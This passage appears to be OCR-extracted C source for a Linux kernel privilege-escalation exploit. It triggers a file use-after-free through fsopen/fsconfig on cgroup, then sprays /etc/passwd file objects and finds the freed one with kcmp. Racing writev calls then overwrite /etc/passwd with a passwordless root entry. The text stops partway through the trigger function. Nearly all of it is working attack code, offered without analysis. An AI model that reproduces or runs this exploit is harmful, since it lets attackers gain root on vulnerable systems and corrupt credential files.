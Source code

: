 ```

    run_write = 1;
    if (writev(fd, iov, 5) < 0) {
        perror("slow write");
    }
    printf("write done!\n");}

void *write_cmd() {
    char data[1024] = "root::0:0:root:/root:/bin/sh\n\n";
    struct iovec iov = {.iov_base = data, .iov_len = strlen(data)};

    while (!run_write) {
    }
    run_spray = 1;
    if (writev(uaf_fd, &iov, 1) < 0) {
        printf("failed to write\n");
    }
    printf("overwrite done! It should be after the slow write\n");}

int spray_files() {

    while (!run_spray) {
    }
    int found = 0;

    printf("got uaf fd %d, start spray....\n", uaf_fd);    for (int i = 0; i < MAX_FILE_NUM; i++) {
        fds[i] = open("/etc/passwd", O_RDONLY);
        if (fds[i] < 0) {
            perror("open file");
            printf("%d\n", i);
        }
        if (syscall(__NR_kcmp, getpid(), getpid(), KCMP_FILE, uaf_fd, fds[i]) ==
            0) {
            found = 1;
            printf("[!] found, file id %d\n", i);
            for (int j = 0; j < i; j++)
                close(fds[j]);
            break;
        }
    }

    if (found) {
        sleep(4);
        return 0;
    }
    return -1;
}

void trigger() {
    int fs_fd = syscall(__NR_fsopen, "cgroup", 0);
    if (fs_fd < 0) {
        perror("fsopen");
        die("");
    }

    symlink("./data", "./uaf");

    uaf_fd = open("./uaf", 1);
    if (uaf_fd < 0) {
        die("failed to open symbolic file\n");
    }

    if (syscall(__NR_fsconfig, fs_fd, 5, "source", 0, uaf_fd)) {
```
